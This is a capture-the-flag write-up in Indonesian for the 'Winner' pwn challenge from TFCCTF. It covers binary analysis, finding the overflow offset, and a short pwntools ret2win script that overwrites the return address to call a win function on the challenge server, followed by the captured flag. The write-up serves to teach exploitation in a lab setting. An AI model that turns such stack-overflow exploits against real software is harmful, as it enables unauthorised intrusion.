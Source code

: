 ## Winner

![Challenge Picture](./attachments/winner.png)

## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do? [winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec

![checksec](./attachments/checksec.png)

2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi

![error](./attachments/libcerror.png)

![pwninit](./attachments/pwninit.png)

3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama

![program](./attachments/program.png)

4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win

![win](./attachments/win_func.png)

5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa cara untuk bypass program ini adalah dengan ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer

![gdb](./attachments/gdb.png)

8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan

![getenvaddr](./attachments/getenv.png)

10. Kita jalankan script tersebut, dan ketemu flagnya

```console
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`
